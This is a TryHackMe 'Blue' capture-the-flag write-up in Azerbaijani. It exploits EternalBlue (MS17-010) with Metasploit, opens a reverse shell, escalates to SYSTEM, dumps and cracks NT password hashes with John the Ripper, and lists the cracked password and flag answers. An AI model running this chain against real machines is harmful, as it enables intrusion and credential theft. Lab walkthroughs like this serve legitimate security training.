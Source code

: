 # Lab: Blue – TryHackMe

**Məqsəd:** EternalBlue (MS17-010) zəifliyindən istifadə edərək foothold əldə etmək, post-exploitation, hash dump və flag toplamaq.

---

## Task 1: Recon

**Machine və AttackBox-u işə sal**  
- “Start Machine” və “Start AttackBox” düymələrini bas.  
- Split-Screen view istifadə et.  

**Port Scan:**  

nmap -sV -p 1-1000 -sC -T4 <target-ip>
Cavab: Açıq portlar 1000-dən aşağı → 3

Screenshot: ![Nmap Scan](screenshots/nmap.png)

Vulnerability identification:

Cavab: ms17-010

## Task 2: Gain Access
Metasploit-i işə sal:

bash
Copy code
msfconsole
Exploit modulunu seç:

bash
Copy code
use exploit/windows/smb/ms17_010_eternalblue
Cavab: exploit/windows/smb/ms17_010_eternalblue

Əsas parametrin set edilməsi:

bash
Copy code
set RHOSTS <target-ip>
Cavab: RHOSTS

Screenshot:  ![Rhosts](Rhosts.png)

Payload təyin et:

bash
Copy code
set payload windows/x64/shell/reverse_tcp
Exploit-i işə sal:

bash
Copy code
exploit
Shell açılacaq




## Task 3: Escalate
Əvvəlki shell-i background et:

CTRL + Z

Shell to Meterpreter post-modulu:

bash
Copy code
use post/multi/manage/shell_to_meterpreter
Cavab: post/multi/manage/shell_to_meterpreter

Əsas parametrin set edilməsi:

bash
Copy code
set SESSION 1
Cavab: SESSION

Post modulunu çalışdır:

bash
Copy code
exploit
Shell meterpreter-ə çevriləcək



SYSTEM hüququnu yoxlama:

bash
Copy code
getsystem
shell
whoami
Cavab: NT AUTHORITY\SYSTEM


Process migration:

bash
Copy code
ps
migrate <PROCESS_ID>
SYSTEM hüququ ilə prosesə migrate et



## Task 4: Cracking
Password hash-ləri dump et:

bash
Copy code
hashdump
Cavab: Jon



Hash-i fayla yaz:

bash
Copy code
nano hashjon.txt
Hash-i hashjon.txt faylına yapışdır

John the Ripper ilə qır:

bash
Copy code
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashjon.txt
Cavab: alqfna22

Screenshot:  ![John](screenshots/john.png)

## Task 5: Find Flags  

Flag1 – System root:

bash
Copy code
cd /
cat flag1.txt
Cavab: flag{access_the_machine}

Screenshot:  ![flag1](screenshots/flag1.png)

Flag2 – Windows parol qovluğu:

bash
Copy code
cd windows/System32/config
cat flag2.txt
Cavab: flag{sam_database_elevated_access}

Screenshot:  ![flag2](screenshots/flag2.png)

Flag3 – Administrator Documents (Jon qovluğu):

bash
Copy code
cd /Users/Jon/Documents
cat flag3.txt
Cavab: flag{admin_documents_can_be_valuable}


Screenshot:  ![flag3](screenshots/flag3.png)




